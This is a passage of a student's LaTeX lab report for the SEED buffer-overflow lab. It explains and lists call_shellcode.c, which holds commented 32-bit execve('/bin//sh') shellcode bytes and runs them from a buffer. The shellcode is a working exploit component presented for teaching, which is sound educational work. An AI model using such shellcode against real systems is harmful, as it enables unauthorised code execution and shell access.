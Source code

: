 \documentclass[14pt]{extarticle}
\begin{document}
I can take the assembly of the previous code (after it has been compiled) and place the assembly in a buffer of a new program. The assembly of the original shell code program above is much different than the assembly that is in the given call\_shellcode program from the lab. This is most likely due to the changes in gcc since the release of this lab. 
To test the assembly code of the above program, I can create a program "call\_shellcode" which will simulate an actual attack. I can place the assembly code of the previous program into a buffer in a new program. This new program will execute the code stored in a buffer by referencing to the buffer's location in memory as a function. Since the buffer is filled with executable hex code, the program will continue to execute the hex code as if it were a normal program \cite{seed-bof}.
The new program will look like this:
\begin{lstlisting}[language=c]
/* call_shellcode.c */
/* A program that launches a shell using shellcode */
// in order to run the execve system function in the assembly code, I need to include it in these libraries
#include <stdlib.h>
#include <stdio.h>
// the string library will help with holding the assembly code in a character array
#include <string.h>
const char code[] =
	// xor a register with it's self to clear it
    "\x31\xc0"       /* Line 1:     xorl       %eax,%eax        */
	// push the null value to the stack
    "\x50"            /* Line 2:     pushl      %eax             */
	// push the value "//sh" to the stack, double // is used to make 32 bit number
    "\x68""//sh"     /* Line 3:     pushl      $0x68732f2f      */
	// push the value "/bin" to the stack
    "\x68""/bin"     /* Line 4:     pushl      $0x6e69622f      */
	// copy location of the name[ 0 ] parameter to register ebx
    "\x89\xe3"       /* Line 5:     movl       %esp,%ebx        */
    // push another null value to the stack
    "\x50"           /* Line 6:     pushl      %eax             */
	// push the ebx register to the stack
    "\x53"           /* Line 7:     pushl      %ebx             */
	// copy location of name parameter to register ecx
    "\x89\xe1"       /* Line 8:     movl       %esp,%ecx        */
	// sets edx to zero. 
    "\x99"           /* Line 9:     cdq                         */
	// copy the value of register al to 11
    "\xb0\x0b"       /* Line 10:    movb       $0x0b,%al        */
	// create an interrupt and execute code at location 0x80 (execve command)
    "\xcd\x80"       /* Line 11:    int        $0x80            */
;
int main(int argc, char **argv)
{
	// create a buffer to hold the assembly code
    char buf[sizeof(code)];
	// copy the code into the buffer
    strcpy(buf, code);
	// call the assembly code in the buffer as-if it were a function.
    ((void(*)( ))buf)( );
}
\end{lstlisting} \cite{seed-bof} \cite{intel-asm}\\
\end{document}
